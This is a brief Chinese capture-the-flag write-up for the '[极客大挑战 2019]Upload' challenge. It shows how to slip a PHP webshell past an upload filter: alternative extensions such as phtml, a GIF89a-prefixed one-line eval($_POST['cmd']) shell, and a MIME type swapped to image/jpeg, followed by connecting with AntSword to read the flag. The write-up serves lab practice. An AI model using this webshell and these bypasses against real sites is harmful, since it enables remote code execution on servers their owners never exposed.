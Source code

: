 ### [极客大挑战 2019]Upload

> 打开网页
> 很明显是一个文件上传
> 这时候我们准备好一个webshell

**后缀绕过**
php,php3,php4,php5,phtml.pht

**一句话**

```
GIF89a
<script language="PHP">
@eval($_POST['cmd']);
</script> 
```

> 制作一个webshell.phtml进行上传
> MIME类型检测绕过
> 将text/php修改为image/jpeg
> ![在这里插入图片描述](img/4844ffe37f25f679618db97771780a72.png)
> 打开蚁剑连接，然后cat /flag
> ![在这里插入图片描述](img/6502cf676b46725bcea8a939ef4006fc.png)
